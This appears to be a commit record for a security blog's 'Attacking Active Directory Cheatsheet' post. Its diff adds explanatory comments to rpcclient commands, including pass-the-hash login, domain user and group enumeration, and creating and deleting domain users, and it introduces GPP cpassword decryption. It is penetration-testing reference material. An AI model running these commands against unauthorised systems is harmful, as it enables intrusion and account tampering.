

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 6293 px. Shown: the whole window at 91% size, without its empty margins (228-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2024-11-01-Attacking-Active-Directory-Cheatsheet.md

````diff
--- a/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
@@ -218,21 +218,21 @@ rpcclient -U "username%password" 172.16.150.10
 rpcclient //172.16.150.10 -U vorkharium.com/john%1a06b4248879e68a498d3bac51bf91c9 --pw-nt-hash
 
 # All RPC Queries
-srvinfo
-enumdomusers # Users
-enumpriv # Works like "whoami /priv"
-queryuser john # Detailed user info
-getuserdompwinfo <RID> # Password Policy, use the previous command "queryuser" to get the RID to run this command
-lookupnames john # SID of specified user
-createdomuser john # Create a new user
-deletedomuser john # Delete user
-enumdomains
-enumdomgroups
-querygroup <group-RID> # Use the previous command "enumdomgroups" to get the RID to run this command
-querydispinfo # Show description of all users
-netshareenum # Enumerate Shares (This will only work if the current user we used to log in has permissions)
-netshareenumall
-lsaenumsid # SID from all users
+srvinfo                   # Retrieves server information, including the OS version and domain.
+enumdomusers              # Enumerates domain users, listing all users in the specified domain.
+enumpriv                  # Enumerates the current user's privileges, similar to the "whoami /priv" command.
+queryuser john            # Retrieves detailed information for the specified user (e.g., 'john').
+getuserdompwinfo <RID>    # Retrieves the domain password policy for a specific user, requires the user's RID from "queryuser".
+lookupnames john          # Finds and displays the SID (Security Identifier) for the specified user (e.g., 'john').
+createdomuser john        # Creates a new user in the domain with the specified username (e.g., 'john').
+deletedomuser john        # Deletes the specified user from the domain (e.g., 'john').
+enumdomains               # Lists all domains that are accessible within the current network.
+enumdomgroups             # Lists all groups in the domain, including their names and RIDs.
+querygroup <group-RID>    # Displays detailed information for a specific group, requires the group's RID from "enumdomgroups".
+querydispinfo             # Lists descriptions of all users in the domain.
+netshareenum              # Enumerates all shared network resources, requires necessary permissions of the current user.
+netshareenumall           # Enumerates all shared network resources, regardless of user permissions.
+lsaenumsid                # Lists SIDs for all users on the system.
 ```
 ### GPP cpassword
 Check if we can find a file called Groups.xml inside SYSVOL folder through SMB Shares access. This file contains a "cpassword" field. To decrypt the hash in the cpassword field we can use the following command:
````
